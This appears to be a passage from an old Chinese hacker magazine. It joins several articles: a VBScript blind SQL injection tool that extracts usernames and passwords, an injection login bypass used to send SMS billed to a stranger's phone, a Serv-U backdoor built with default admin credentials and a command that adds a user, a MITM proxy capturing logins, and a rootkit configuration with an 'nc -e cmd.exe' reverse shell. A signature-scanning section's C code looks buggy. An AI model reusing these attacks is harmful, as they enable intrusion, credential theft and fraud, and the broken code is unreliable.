
同时，这个函数也是确定是否存在注入漏洞的关键！通过构造 http://ip/list.asp?id=-1 and 1=1 和 http://ip/list.asp?id=1 and 1=0 两个非法 URL（当然，如果它们能被正常执行就不是非法啦）把它们返回的信息进行比较：如果内容一样就说明这两个都没有执行，错误返回，提示无漏洞并退出！如果内容不一样，说明 http://ip/list.asp?id=1 and 1=1 正常执行，而 http://ip/list.asp?id=1 and 1=0 没有正常执行，则提示有漏洞并开始注入（猜测表名、字段、用户名、密码）。猜解过程下面将会谈到。

```vb
Function pCheckSQL(pUrl)
Dim Continuefind, BodyText1, BodyText2
BodyText1=""
BodyText2=""
Dim pCheckSQL1, pCheckSQL2, pCheckSQL3
pCheckSQL1=pRetText(pUrl)
pCheckSQL2=pRetText(pUrl+" and 1=1")
pCheckSQL3=pRetText(pUrl+" and 1=0")
FOR i=1 to Len(pCheckSQL1) step 1
    IF Mid(pCheckSQL1,i,1)=Mid(pCheckSQL2,i,1) Then
        BodyText1=BodyText1+Mid(pCheckSQL1,i,1)
    Else
        Exit For
    End IF
Next
FOR i=1 to Len(pCheckSQL3) step 1
    IF Mid(pCheckSQL3,i,1)=Mid(pCheckSQL2,i,1) Then
        BodyText2=BodyText2+Mid(pCheckSQL3,i,1)
    Else
        Exit For
    End IF
Next
IF BodyText1<>BodyText2 Then
    pCheckSQL="True"
```

## 检测表名

通过提交 http://ip/list.asp?id=1 and exists (select * from ptable) 来检测是否存在表 pTable。pCheckTable(pUrl,pTable) 函数介绍：

```vb
Function pCheckTable(pUrl,pTable)
    CheckTable=pPost(pUrl+" and exists (select * from "+pTable+")")
    IF CheckTable="True" Then
        pCheckTable="True"
    Else
        pCheckTable="False"
    End IF
End Function
```

可能有朋友要问了，判断表名时如何给参数 pTable 赋值呢？我们还是无法得知数据库中是否存在表 pTable 啊！对，这里只有预设一个表名。我们常常要破解的无非是 admin 或者普通用户密码，这里我预设的 pTable 数组是这样的（可以自行添加）：

```vb
Dim Table(3)
Table(0)="admin"
Table(1)="user"
Table(2)="login"
Table(3)="news"
```

构造一个类似 `http://ip/list.asp?id=1 and exists (select * from ptable)` 这样的 URL，若存在表 pTable 则返回 pCheckTable="True" 并检查该表中的字段，若不存在则返回 pCheckTable="False" 并检查下一个表名。

## 检测字段名

通过提交 `http://ip/list.asp?id=1 and 0<>(select count(pField) from ptable)`，检查字段名的方法与检测表名相同，具体函数如下：

```vb
Function pCheckField(pUrl,pTable,pField)
    CheckField=pPost(pUrl+" and 0<> (select count("+pField+") from "+pTable+")")
    IF CheckField="True" Then
        pCheckField="True"
    Else
        pCheckField="False"
    End IF
End Function

同样字段名也是预设的（可以自行添加）
Dim Field(11)
Field(0)="name"
Field(1)="user"
Field(2)="username"
Field(3)="pwd"
Field(4)="pass"
Field(5)="passwd"
Field(6)="password"
Field(7)="id"
Field(8)="title"
Field(9)="body"
Field(10)="topic"
Field(11)="board"
```

## 检测用户名和密码

这里是比较重要的地方，它可以猜到已知字段的长度和每个字符，这样就可以取得用户名和密码了。这里用到的函数如下：

```vb
Function pCheckLen1(pUrl,pTable,pField,pCheckStyle,pnum,m,n) ' 用来检测 pField 的长度和内容
IF pCheckStyle=1 Then pCheckStr="Len("+pField+")"
IF pCheckStyle=2 Then pCheckStr="Asc(Mid("+pField+","+pnum+",1))"
IF pPost(pUrl+" and exists (select top 1 * from "+pTable+" where "+pCheckStr+"<"+m+" and "+pCheckStr+">"+n+")")="True" Then
    Wscript.Echo pField&"中没有找到内容!"
End IF
IF pPost(pUrl+" and exists (select top 1 * from "+pTable+" where "+pCheckStr+"="+m+")")="True" Then pCheck=CInt(m):Exit Function
IF pPost(pUrl+" and exists (select top 1 * from "+pTable+" where "+pCheckStr+"="+n+")")="True" Then pCheck=CInt(n):Exit Function
mn=CStr((CInt(n)+CInt(m))/2)
IF pPost(pUrl+" and exists (select top 1 * from "+pTable+" where "+pCheckStr+">"+m+" and "+pCheckStr+"<"+mn+")")="True" Then
    Wscript.Echo pUrl+" and exists (select top 1 * from "+pTable+" where "+pCheckStr+">"+m+" and "+pCheckStr+"<"+mn+")"
    Call pCheckLen1(pUrl,pTable,pField,pCheckStyle,pnum,m,mn)
Else
    Call pCheckLen1(pUrl,pTable,pField,pCheckStyle,pnum,mn,n)
End IF
End Function
```

这里可能有朋友要提出另一疑问了：为什么不先猜测 id？呵呵，我的目的是为了找到用户名和密码，在这里直接找就可以了，省掉了一些不需要的东西，避免猜解时间过长……

该函数中的参数说明：pUrl 大家应该知道了，上面已经提到过了，是存在漏洞的 URL 地址；pTable 是已经猜出来的表名；pField 是要猜解的字段名。pTable 和 pField 都需要手动输入，因为我们要猜的是用户名和密码，所以要分别输入表名、用户字段名、密码字段名，然后脚本会先猜用户名长度和内容，再猜该用户的密码长度和内容！

脚本是用一个 RunInjection() 函数来执行的。这里提到它只是为了说明一个错误处理提示，其中有段代码如下：

```vb
Wscript.Echo Chr(10)&"——开始猜测表名"&Chr(10)&"| |"
```

```vb
If pCheckTable(Url, ErrorTable) = "True" Then
    Wscript.Echo "!" & ErrorTable & Chr(10) & "!"
    Wscript.Echo "└──表名猜测完毕!" & Chr(10)
End If
```

其中的 `ErrorTable` 在程序开头定义为：`ErrorTable="注入不成功!"`，判断 `pCheckTable(Url, ErrorTable)` 是否为 `"True"`，就是判断 `BodyText` 是否取得成功！就是说如果找到表明 `ErrorTable` 就提示注入失败了，否则继续猜以下的表名！

图1是我随便测试的一个论坛的截图（这时候才的确感觉它很方便^^）。


### 总结

该脚本适合 Access 版的论坛注入，SQL 版的请参看 LILO（小骗子）写的 SQL 注入脚本，该脚本在查找中需要手动输入已查到的表、字段名称，使用过程中稍有不便，请大家见谅！

如有问题请联系 `qingyang@hacker.com.cn`（谢谢毒毒在幕后给我支持^_^）。

### 编后语

> 看到作者，我又想到了“宁要残的”作品。其实作者真的是在程序编辑上倾注了一番苦心，通过有逻辑、有理论、有方法地完成了一篇 SQL 程序式的攻击过程。不愧是功夫不负有心人。大家可以多多借鉴作者的攻击思路写程序的方法，完成一些烦琐的攻击过程。还是那句话，程序式的注入攻击是以后脚本攻击的流行趋势。

## 免费的午餐从哪里来

- 1. 通讯类软件。这类有 ICQ、网易泡泡等，可以用来免费发短信，但是这类软件大多有发送条数，或者时间的限制。
- 2. 下载一些免费发短信的软件或到一些可以免费发短信的网站。
- 3. 自己找一些短信服务平台。这里我们重点介绍这个方面的，大家可以在网络上经常见到一些发短信或下载手机铃声、发送短信的网站。这些站点一般都是有短信发送平台的，我们就是从这里下手——在发送的时候，一般短信中心都需要用手机进行注册，然后用手机号码登录，发送短信，订阅短信或者下载图片。

一般情况，发送一条短信是需要收取注册手机 0.10 元，而订购短信和下载图片铃声则更多。经过测试，发现了这些站点因为在 ASP 程序的过滤上出现问题，导致了非法用户可以免费发短信。具体方法如下：在注册手机里填任意一个号码 `1377****888`，注意，以后你的发送费用将从这个手机里面扣掉！然后点注册。此时，短信平台将向该手机（`1377****888`）发送一条密码信息，当然，我们的手机 `1388****999` 是收不到的，不管它，在下一步填注册密码的时候填入 `2'or'1'='1`，然后点注册。如果没有什么意外的话，恭喜你，注册成功了！其实，各位玩 SQL 注射的朋友肯定都明白了：短信平台虽然对输入的手机号码做了限制，但是对输入的密码却没有做过滤！——因为 ASP 程序对 SQL 语句解释上的问题，就出了上面的漏洞，相信大家一直看黑防，这样的问题见的一定不少！

下面在接收手机号码里面填我们自己的号码：`1388****999`，然后点发送，不一会你会听到你的手机响，嘿嘿，成功了！这样你就可以免费的发送短信，下载铃声、图片，订阅短信了！

脚本小子：谁不希望完美，得到完美的东西是要靠自己的双手努力才能做到的。构造肉鸡也是同样的道理，无论是通过脚本的方式还是通过工具、修改等等，都要自己实践过了才知道。为了你的肉鸡，黑友们让我们来看看下面这篇文章的作者是怎么做的。

**难度等级：** 高级

**前置知识：** Serv-U 的使用知识、WinHex 的使用技巧、端口重定向的概念

## 完美后门之 Serv-U 篇

文／图 高康迪

完美的后门是每个读者都想得到的，什么叫完美的后门？永远不被查杀，而且操作简便，仔细想想好像只有 ASP 木马能做到，其实第三方软件才是真正完美后门的藏身处，下面笔者就给大家介绍一下用 SERV-U 打造完美后门。

熟悉 SERV-U 的朋友应该都知道它是可以远程登录管理的，本地管理也需要登录，我们先来看看这个：

打开 SERV-U 后，进入“本地服务器”→“活动”→“任务日志”，就可以看见上面一排字，仔细一看，监听了两个端口，一个是 21，另一个 43958。21 端口相信大家都知道，但这 43958 端口是干啥的呢？相信就很少有人知道了，其实这就是 SERV-U 本地管理登录的端口，而且本地登录管理也是需要口令的，这就使 SERV-U 成为后门变得可能，关键是 43958 这个端口不允许本地登录。为了能使它能允许我们本地登录，一般可以采取两种方法：

### 端口转发

我们可以写一个 BAT，BAT 的内容就是利用 FPIPE 把 43958 这个端口的数据转发到另一个端口去，这样我们就可以从外部连接这个转发的端口从而连接 43958 这个端口。首先先建立一个 BAT，内容如下：


```bat
echo off
fpipe -v -l 4444 -r 43958 127.0.0.1
```

这里的意思是把本地的 4444 端口映射到 43958 端口，存为 shuangfeng.bat，接着把这个 BAT 注册成服务，这里就要用到 ntservice.exe 了。ntservice.exe 是程序员 hotmail 写的一个注册服务的小程序，它运行后会自动注册某项服务，使用以后每次开机自动运行。

ntservice.ini 是 ntservice.exe 的设置文件，内容如下：

```ini
[Settings]
ServiceName = NTService
LogEnable = 0
ProcCount = 1

[Process0]
CommandLine = c:\winnt\system32\shuangfeng.bat
PauseStart = 1000
PauseEnd = 1000
UserInterface = No
```

这里的设置最重要的是：

```ini
ServiceName = NTService
CommandLine = system.bat
```


图2

接着运行 `ntservice.exe -install` 就成功地把它注册到服务里了（其实还可以替换服务以达到更隐藏的效果，但这不在本文讨论范围之内，所以不讲述）。接着，我们就可以用 SERV-U 来远程连接这个端口，点“本地服务器”，接着点左上角的“新建服务器”，本地管理的默认密码和账号如图1。


图1

- 账号：LocalAdministrator
- 密码：#!@$ak#.lk,0@P

连接上以后就可以像管理本机一样管理肉鸡了，我们先建立一个用户，权限设置为系统管理员，接着点击用户，把根目录设置为：`c:\winnt\system32\`，进入目录访问，把文件下载行选项打上勾，接着就可以登录进去了（图2）。

```text
输入：
ftp>quote site exec "net.exe user shuangfeng 111 /add"
```

这样就执行了 `net user shuangfeng 111 /add` 命令，剩下的事就不用多说了吧？

### 修改成允许外部连接

启动 WinHex，打开 ServUDaemon.exe（图3），接着按 Ctrl+F 调出查找文本项，输入：`127.0.0.1`，查找到第 6 个的时候改为 `0.0.0.0`，这样所有的 IP 就都允许连接了，以后就可以使用上面的方法利用 SERV-U 远程维护管理了。

最后说一说防范方法：还是用 WinHex 打开 ServUDaemon.exe，搜索 `LocalAdministrator`，全部替换成你喜欢的名字，这样默认的口令就失效了，简单吧？快利用 SERV-U 做个完美后门吧！

### 编后语

我对作者手工修改 Serv-U 的精神非常地佩服，试想一个不经常用到的远程管理 FTP，竟然可以构建一个完美的肉鸡，心里就觉得美滋滋的。感谢这位作者把他构造完美肉鸡的经验和我们分享。希望读者朋友们可以把自己利用漏洞构造完美肉鸡的经过发给我们：scriptsboy@hacker.com.cn


图3


## 题析

### ——危险的代理服务器 Achilles

蝴蝶：在你无法访问某些网站时，我们往往会在网上搜索各种代理服务器来满足我们的要求，但你是否想过，或许因此你的一举一动就已经在别人的监视之中。更为严重的是，你收到的某些数据或许也是被人刻意修改过的。今天，我们就介绍一款存在这种功能的代理服务器……

文／darkshark

通过代理上网的方式，相信大家都已经不再陌生，如果你想去 BBC 中文网或美国之音看看，可是浏览器总是告知无法与该站点连接或者出现类似的提示，你就可以使用代理服务器来达到访问目的了。

代理服务器处于客户机与服务器之间，对于服务器来说，代理服务器是客户机，代理服务器提出请求，服务器响应；对于客户机来说，代理服务器是服务器，它接受客户机的请求，并将服务器上传来的数据转给客户机。代理服务器的工作原理是：当客户在客户端软件中设置好代理后，其使用客户端软件访问所有站点的请求都不会直接发给目的主机，而是先发给代理服务器，代理服务器接受了客户的请求以后，由代理服务器向目的主机发出请求，并接受目的主机的数据，然后再由代理服务器将客户要求的数据发给客户。

目前代理服务器软件有很多，最常用的有 Wingate、Sygate 和 CCProxy 等，它们的功能强大，都可以完成 HTTP、FTP 和 SOCKS 代理。

我们可以看到，代理服务器处在客户端和服务器之间，它负责上传下达，其可以看到客户端和服务器全部的通信信息。那么，代理软件安全吗？答案是否定的。有些代理服务器（如我们下文要介绍的 Achilles），它们可以截获双向的通信信息，还可以改变这些信息然后再发送出去，进行中间人攻击，非常危险。

> **编者按：** 当我们发送的数据和服务器实际接收到的数据、服务器发出的数据与我们实际接收到的数据都不相同的时候，这个网络就几乎没有安全性可言了。对于互联网上的数据，这时我们还能相信什么呢？

Achilles 是一个用来测试网站的安全性能的工具软件。Achilles 相当于位于客户端的一个桌面代理服务器，在一个 HTTP 过程中起到一个中间人的作用，但是 Achilles 与通常的代理服务器又有不同。一个通常的 HTTP 代理软件会将一个客户端的 HTTP 数据包转发给网络服务器。Achilles 则截获双向的通信数据，使得 Achilles 软件的用户可以改变来自和发往网络服务器的数据。比如，在一个正常的 SSL 联系中，一个通常的代理服务器会转发通信使得双方可以商议 SSL 连接，而 Achilles 则不同。当 Achilles 处于截取状态时，它会向客户端假装是服务器，同时向真正的服务器假装是浏览器，在两端商议 SSL 通信。Achilles 可以破解加密的数据，给 Achilles 的用户显示已经解密的内容，并且允许用户更改处于通信过程中的数据。

下面我们介绍一下 Achilles 的使用方法并以实例讲解：

## Achilles 用户界面

Achilles 的主界面如图1所示。File 菜单中只有一个子菜单“Exit”，Format 菜单中也只有一个子菜单“Font”（用来设置显示字体）。菜单下面从左边起，第一个按钮是启动代理服务，第二个按钮是关闭代理服务，第三个按钮是清除下面的文本框中的文字，第四个按钮是用来打开显示客户端送来的请求数据的对话框的，第五个按钮是用来打开显示服务器端送来的响应数据的对话框的。

下面的代理设置区 Proxy Settings 中，“Listen on Port”表示代理服务驻留在哪个端口，默认是 5000，可以自己修改。“Cert File”用于通过 SSL 连接时设置证书用，安装 Achilles 后，安装目录下会有一个证书，文件名是 sample.pem。“Client Timeout”用来设置跟客户端相连时的延时，默认为 1 秒。“Server Timeout”用来设置跟服务端相连时的延时，默认为 3 秒。

截取模式设置区 Intercept Modes 中，“Intercept Modes ON”是截取开关，默认是关。“Intercept Client Data”用来设置截取来自客户端的请求，“Intercept Server Data”用来设置截取来自服务器端的响应，并以文本方式显示。“Log to File”用来设置是否启用日志。而“Ignore .jpg/.gif”用来设置是否忽略网页上的图片和动画。

很明显，下面的“Send”按钮用来发送下面文本框中的内容，“Find/Rep”按钮用来在下面的文本框中查找和替换关键字。文本框中的内容根据模式设置区 Intercept Modes 而定，如果选择的是“Intercept Client Data”，文本框中显示的是客户端向服务器发送的请求命令。如果选择的是“Intercept Server Data”，文本框中显示的是服务器端向客户端发送的响应信息。

## 客户端窗口和服务器端窗口

主界面的文本框中每次总是显示当前的请求命令或响应信息，不能保存以前发送或收到的信息，要想查看的话就可以点击菜单中的第四、第五个按钮。例如客户端访问 www.ytht.net，选择截获客户端和服务器端信息后，客户端窗口和服务器端窗口如图2所示。

## 举例介绍

下面我以访问 www.ytht.net 为例，介绍 Achilles 的两大功能：截获用户名和口令，修改客户端和服务器端之间的数据。


1）客户端通过 IE 访问 www.ytht.net 的主页，并以用户名为 darkshark，密码为 showme 登录。对于一般的代理软件，我们将不能看到用户名和密码，但是 Achilles 可以做到，如图3所示：

从图3中我们可以很清楚地看到用户名 darkshark 和密码 showme。


2）客户浏览 www.ytht.net 的过程中，Achilles 可以修改客户端程序和服务器端程序之间的通信。例如，我们访问其中一个页面时，正常情况下应该如图4所示：

同时我们截获的数据如图5所示：

我们可以直接修改后，然后点击 Send 发送给客户端，那么客户端就会看到如图6所示的页面。

上面我们通过两个实例讲解了 Achilles 的强大功能，从而也可以认识到代理服务器如果不安全将会是很危险的事情，奉劝大家在使用代理时要万分小心，因为可能你的所有秘密都会被代理服务器偷窥甚至修改。

另外，笔者在使用 Achilles 的过程中发现 Achilles 0.27 并不是很稳定，比较容易出现非法操作的情况，在使用 Find/Rep 功能的时候尤其如此。最后给出 Achilles 的下载地址：http://packetstormsecurity.nl/filedesc/achilles-0-27.zip.html。

### 后记

通常我们所说的数据安全包括了两个方面：保密性和完整性。前者是指数据没有被非法获得；后者是指数据没有被非法修改。本文中涉及到的例子，其既没有保证数据的保密性，也没有顾及数据的完整性。那在这个极不安全的互联网中如何保证这两点呢？其实，解决这两个问题的基础便是现代密码学，它也是整个网络安全的基础所在。如果你对此感兴趣，可以找找这方面的资料多看看，相信这将非常有利于加深你对网络安全的理解。

## 将后门隐藏到底

### ——内核级后门 Hxdef100 配置及使用方法

文／小骗子

在众多后门中，Rootkit 是一个非常不错的选择。在当前比较流行的 Rootkit 之中，Hacker Defender 尤其被人关注，由于它作为内核的一部分运行，所以这种后门将会越来越比传统技术更加强大、更加不易被发觉。一旦被安装运行到目标机器上，系统就会完全被控制在 hacker 手中了——甚至系统管理员根本找不到安全隐患的痕迹。

作为一款非常出色的 Rootkit，hxdef100 给我们提供了很多可选择配置的功能。比如：用户可以通过本软件隐藏文件、进程、系统服务、系统驱动、注册表键的键和键值、打开的端口以及虚构可用磁盘空间，下面我们就来看一下这款诱人的内核级后门是如何打造出来的。

## 配置

首先，检查我们下载来的 hxdef，应该具备如下文件：

```text
bdcli100.exe     自带后门客户端连接文件
hxdef100.exe     Hxdef100 后门主程序
hxdef100.2.ini   hxdef 配置文件模板
hxdef100.ini     hxdef 经过简单加密过的配置文件模板
rdrbs100.exe     Redirector 工具（类似于端口转发）
```

打开 hxdef100.2.ini，我们可以看到 hxdef 的默认配置选项，首先，我们先对 [Hidden Table] 项进行配置。[Hidden Table] 是要隐藏的列表，写在这个项目下的字符串，不管是作为文件名还是目录名，都将不在 Windows 任务管理器、资源管理器中出现，并且支持通配符，一行一个。例如：

```ini
[Hidden Table]
hxdef*      ; 隐藏所有以 hxdef 开头的文件名、目录名等等
rcmd.exe    ; 隐藏 rcmd.exe 文件
```

下一步，就是 [Root Processes] 项，这里是配置要隐藏的能在进程管理器中显示的进程名，同样支持通配符。配置如下：

```ini
[Root Processes]
hxdef*      ; 隐藏以 hxdef 开头的所有进程
rcmd.exe    ; 隐藏 rcmd.exe 进程
```

[Hidden Services] 项目，是所要进行隐藏的服务列表，hxdef 非但能隐藏自身，而且可以为其他后门、程序提供隐藏服务。这是 hxdef 的一大亮点。首先当然是隐藏自身的服务名，而后是其他服务，一行一个，也支持通配符。配置例如：

```ini
[Hidden Services]
HackerDefender*  ; 这里是你的 hxdef 的服务名
WinMgrs          ; 这个是我的 WinEggDrop 的服务名
```

[Hidden RegKeys] 隐藏 RegKey 列表，我们添加的服务都将会在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 找到对应的注册表项，所以为了做到彻底隐藏，我们就要将隐藏进行到底。配置例子：

```ini
[Hidden RegKeys]
HackerDefender100        ; hxdef 默认的服务名
LEGACY_HACKERDEFENDER100 ; LEGACY 加 hxdef 服务名
```

```ini
HackerDefenderDrv100=__hxdef默认的驱动名
LEGACY_HACKERDEFENDERDRV100
LEGACY_=加hxdef驱动名
```

其他的服务也如此添加，不同服务对应自身的服务名。

[Startup Run] 后门在启动时，同时启动的其他项目列表，这里我们可以放进一些不能随开机启动的项目，比如 NC。用法：

```ini
[Startup Run]
nc -e %windir%\system32\cmd.exe 你的IP 端口
```

这里允许使用例如 %windir%、%tmpdir% 等环境变量。

[Hidden Ports] 隐藏端口列表，这个我们平时用到的比较多，写在这个列表中的端口，可以不再显示监听，用 netstat -na 也查不到哦。配置方法很简单：

```ini
[Hidden Ports]
TCP: 4136, 8922, 9333    要隐藏的 TCP 协议端口
UDP: 4136, 8922, 9333    要隐藏的 UDP 协议端口
```

[Settings] hxdef 的设置部分，可以设置 hxdef 的服务名、描述、显示名等等。设置方法如下：

```ini
[Settings]
Password=Lilo654321              后门连接密码
BackdoorShell=stdio2.exe         后门连接后，会将 cmd.exe 复制一份，每个连接复制一份，改为通配符，连接完毕后会自动删除。
FileMappingName=__Hacker Defender__
ServiceName=HackerDefender100    hxdef 的服务名，要和上面 [Hidden Services] 项目中的对应哦。
ServiceDisplayName=HXD Service 100    hxdef 服务显示名
ServiceDescription=powerful NT rootkit    hxdef 服务描述
DriverName=HackerDefenderDrv100    hxdef 驱动名
DriverFileName=hxdefdrv.sys    hxdef 驱动文件名
```

[Comments] 为注释部分，由于 hxdef100 的配置文件为 ini，所以一定要把 [Hidden Table] 项目填写正确，将 ini 文件也隐藏掉，否则就等着羞嗒~

以上，我们了解了 Hxdef100 的配置方法，在种植时，需要注意以下几个开关选项及事项：

- `installonly`：仅仅进行安装服务，并不同步运行。
- `refresh`：重新读取 INI 设置。
- `noservice`：正常运行，但不安装成服务，重新启动时恢复，测试时使用。
- `uninstall`：将 hxdef 移出内存，并且断开所有连接及卸载服务。

## 使用

上面的配置比较死板，大家也看累了吧？啊啊，下面我来看看它的简单使用方法！

客户端连接程序 bdcli100.exe 用法也尤为简单，逐个输入所要求输入的选项即刻进入 Shell。hxdef100 自带的后门，并不是传统后门，像 bits 和 WinEggDrop 老哥的 PortLess 类似，后门程序并不开端口，而是 Sniffer 所有网卡是否有发送连接字符串，然后进行连接的。用法例如：

```text
C:\>bdcli100
Host: 192.168.0.102      连接远程服务器
Port: 80                 进行连接的端口
Pass: Lilo654321         hxdef100 的连接密码
connecting server
receiving banner
opening backdoor
backdoor found
checking backdoor
backdoor ready
authorization sent, waiting for reply
authorization - SUCCESSFUL
backdoor activated!
close shell and alt progz to end session    过了这一步，就得到 Shell 啦。
```

另外，端口复用技术也在这个后门上得到发挥，前文后门专题已经有介绍了，这里就不再多说，大家可以不光利用 80 端口控制服务器，53、21 等端口都可以连入系统！

对于这么好的一个后门 + Rootkit，你不心动吗？还等什么，赶快去光盘下载配置一个吧！

sokit：特征码扫描是非常古老但又一直活用至今的技术了，无论是在各杀毒软件，还是在各款木马查杀软件中，特征码扫描就占据着非常重要的位置。本文着重介绍了基于快速模式匹配的特征码扫描技术，如果您对这方面的知识感兴趣，相信对您一定会有所启发。

编者注：本文并不适合新手看，在看本文之前，需要事先掌握数据结构和扫描算法方面的相关知识。

## 杀毒软件编程——特征码扫描技术

文／单长虹

特征码扫描技术是反病毒技术中的常规武器，虽然特征码扫描技术有着一定的局限性，但是，改进的基于特征码扫描技术的广谱特征串过滤技术却有着无比的优越性和广阔的应用前景。但是，无论是上面提到的哪种技术，最终都难以逃脱扫描算法的效率要求。而学过《数据结构》的读者应该知道一种快速的字符串扫描算法叫做“模式匹配算法”，这种算法可以对字符串进行快速扫描。但是，深入进去就会发现，我们的特征码扫描算法中经常会用到通配符，如：% 和 *（这里我令 % 匹配一个字符，* 匹配32个字符），对于这样一些非常规的串，没有现成的算法可以引用。笔者在做防治木马技术的研究中，对常规的模式匹配算法进行了改进，写出了如下的快速查找算法，暂且命名为“半回溯的模式匹配算法”，以与常规的“无回溯的模式匹配算法”区别。

这里，我之所以称之为“半回溯”，就是因为在对通配符进行匹配时要进行适当的回溯，以减少因为采用通配符所带来的过长推进。虽然这是一种带有回溯的算法，但是实际上它的效率并不比“无回溯的模式匹配算法”低多少，其对算法的效率不能构成真正的威胁。这个算法比较抽象，如果没有基础的读者最好先回头看一下《数据结构》的教材中的“无回溯的模式匹配算法”，会对您接下来对算法的理解产生很大的帮助。光说不练，不是好汉，下面我们就开始艰辛而又刺激的模式匹配算法之旅。

对于“无回溯的模式匹配算法”，我不想做过多的说明，因为相关书籍上已经说得够明白了。下面，我们一起来看一下带通配符的半回溯的匹配算法（用 % 号匹配一个字符，用 * 匹配32个字符）：

```text
1. 初始化：
i=1; j=1;
counter1=0; counter2=0;

2. [利用 next[i] 反复进行比较，直到 i 等于 m+1]
循环：当 i<=m 且 j<=n 时，反复执行：
若（p[i]==t[j]）
则 i=i+1；j=j+1；
否则若 p[i]=='%'
则 i=i+1；j=j+1；counter1=counter1+1；
否则若 p[i]=='*'
则 i=i+1；j=j+32；counter2=counter2+1；
否则若 next[i]>0
则 i=next[i]; j=j-(counter1+counter2*32);
counter1=0; counter2=0;
否则
i=1；j=j-(counter1+counter2*32)+1；
counter1=0; counter2=0;
```

其中，counter1 是用来统计 % 的个数，而 counter2 用来统计 * 的个数，其中 m 是子串的长度，n 是被搜索串的长度。每次碰到子串中有 % 的时候就自动将 counter1 加一，若是碰到 * 就自动将 counter2 加一。i 用来指明子串的当前的比较位置，而 j 用来指明被搜索串当前比较的位置，如果一旦子串与被搜索串不能满足搜索条件，就要将被搜索串的比较位置进行回溯，以回到被通配符漏过的字符的个数，以便重新匹配。

这里，涉及到了与“无回溯的模式匹配算法”中相同的要使用的 Next 数组；其中，Next 数组的计算方法如下：

- 1. 【初始化】
  - `j=0, i=1;`
  - `next[1]=0`
- 2. 【反复比较计算 `next[i+1]`】
  - 循环：当 `i<m` 时，反复执行。
  - (1) 比较串 `p1 p2 ... pi` 中最大的相同的前缀和后缀，并将长度送 `j`。
  - 循环：当 `j>0` 且 `p[i]!=p[j]` 且 `p[j]!='%'` 且 `p[i]!='%'` 时，反复执行：`j=next[j]`
  - (2) 计数器加 1：`i=i+1; j=j+1;`
  - (3) 计算 `next[i]`：若 `p[i]==p[j]` 或 `p[i]=='%'` 或 `p[j]=='%'`，则 `next[i]=next[j]`；否则 `next[i]=j`。

Next 数组的计算方法，与“无回溯匹配算法”稍有不同，因为 % 用来匹配一个字符，所以对于 % 的处理，可以看作比较的字符相等的情况来处理，而对 * 的比较，无论如何一个字符都不可能与一个 32 字符的字符串相等，所以对于 * 始终认为不相等。

这个算法的描述，无论我作何解释，读者总会感觉到有一些抽象，而难于真正理解。下面，笔者写了一个简单的程序，来对这个算法进行测试，希望对您会有所帮助。这个程序是在 VC6.0 的控制台下运行的，非常简单，基本上就将以上的算法翻译成了 C++ 语言。源程序可以在附书光盘中找到，名称为“带通配符的无回溯模式匹配算法源程序”。

在这个程序中，首先就是要建立一个子串和被搜索串，并确定算法中提到的 m 和 n 的值，如下所示：

```c
/* 被搜索的串 */
char* t="nihaoaxishanchangshanchanggaoyejiehe/%...";
/* 子串 */
char* p="shanchang%%%hong!";
// next 数组中元素 i 的数等于子串的长度
int next[16];
int i,j;
// initialize variable
j=0; i=1; next[0]=0;
```

接下来，要计算 `next` 数组的值，对上面的算法进行翻译，得到如下代码：

```c
// 计算 next 数组的循环
while(i<16)
{
    while(j>0 && p[i-1]!=p[j-1] && p[i-1]!='%' && p[j-1]!='%')
        j=next[j-1];
    i++;
    j++;
    if(p[i-1]==p[j-1] || p[i-1]=='%' || p[j-1]=='%')
        next[i-1]=next[j-1];
    else
        next[i-1]=j;
}
```

有了至关重要的 next 数组之后，就要使用改进了的模式匹配算法，从被搜索串中搜索出子串，代码如下：

```c
// 模式匹配的循环
i=1;
j=1;
int counter1=0, counter2=0;
while(i<=16 && j<=69)
{
    if(p[i-1]=='*' && p[i-1]==t[j-1])
    {
        i++;
        j++;
        counter1++;
    }
    else if(p[i-1]=='%')
    {
        i++;
        j++;
        counter1++;
    }
    else if(p[i-1]=='*')
    {
        i++;
        j+=32;
        counter2++;
    }
    else if(next[i-1]>0)
    {
        i=next[i-1];
        j=(counter1+counter2*32);
    }
}
```

> 脚本小子：SQL 注入攻击是很热门的技术了，网上玩得火热。早期我们都采用了手工注入的技术来进行。但是可能是在入侵难度加大的原因吧，手工可能远远不及程序来得快。这篇文章不是要给大家提出如何去攻击别人，意在告诉大家，展开你的想像力，让编程并不需要多高技术。

难度等级：高级

前置知识：Delphi 编程技巧，SQL 注入攻击技术。

## 得到 Web Shell 就这么简单！

文／图 臭要饭的！

相信大家对 SQL Injection 注入漏洞都非常了解吧，那我就不用多说了。今天要为大家介绍的是 N.E.V.E.R 和 CZY 的手工注入得到 WebShell 的原理。然后我们利用它们的手工注入原理来写成程序得到 WebShell。手工注入速度当然比程序自动注入慢多了。希望本文可以抛砖引玉，吸引更多的朋友加入到程序注入的行列中来。

再来看看 CZY 的方法吧。

CZY 的方法：前面的和 N.E.V.E.R 的方法基本上差不多，只是后面用到了扩展存储过程——sp_makewebtask。这个扩展存储过程的作用就是：可以把 MSSQL 数据库中的某个表中的记录导出来，以文件的方法保存起来。这种方法就不会出现什么问题，原因在于我们只去读表中某个字段中的值，把字段的信息导出来生成文件，这个字段中的值都是我们附加上的。自己在加入数据的时候，先调试一下，没有问题再加入进去，导出来就当然没有问题了。

以上两位的方法，我都手工测试过。利用 SQL 注入漏洞，建表，向表中加数据，然后再导出数据、删除表，都是利用的 SQL 语句。这里我就不多说了，大家可以看本期的文章。

> 本期后文有 N.E.V.E.R 的这篇文章，相信此文又给广大的脚本爱好者开辟了一个新天地！

### 通过 SQL 注入得到 Web Shell 的原理

N.E.V.E.R 的方法：利用数据库备份得到 WebShell。创建一个表，在表中建一个字段用来保存木马数据，然后利用 MSSQL 导出库文件的办法把整个数据导出来，最后再删除新建的表。

分析：N.E.V.E.R 利用了 MSSQL 的备份数据库功能。把数据导出来，设想数据库中有 `<%%>` 之类的 ASP 标识符号，导出文件，文件名以 .ASP 的形式保存，然后文件又保存在 Web 的路径下。那么，这个导出的 ASP 文件是不是要去解释 `<%%>` 之内的语句呢？如果数据库中的表中有 `<%%>` 标识符号，并且这之中有错误，那么我们导出来生成的 ASP 文件也会有误。不过，这种机会也不太大。

### 利用 DELPHI 实现功能的前言

